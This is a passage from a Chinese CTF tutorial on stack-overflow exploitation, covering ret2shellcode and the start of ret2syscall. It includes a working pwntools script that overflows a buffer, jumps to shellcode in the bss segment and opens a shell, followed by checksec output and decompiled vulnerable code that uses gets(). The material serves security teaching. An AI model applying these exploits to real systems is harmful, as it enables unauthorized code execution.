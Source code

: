 那么这次我们就控制程序执行 shellcode，也就是读入 shellcode，然后控制程序执行 bss 段处的 shellcode。其中，相应的偏移计算类似于 ret2text 中的例子。

具体的 payload 如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

### 题目

- sniperoj-pwn100-shellcode-x86-64

## ret2syscall

### 原理

ret2syscall，即控制程序执行系统调用，获取 shell。

### 例子

这里我们以 bamboofox 中的 ret2syscall 为例  

点击下载: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

首先检测程序开启的保护

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序为 32 位，开启了 NX 保护。接下来利用 IDA 来查看源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
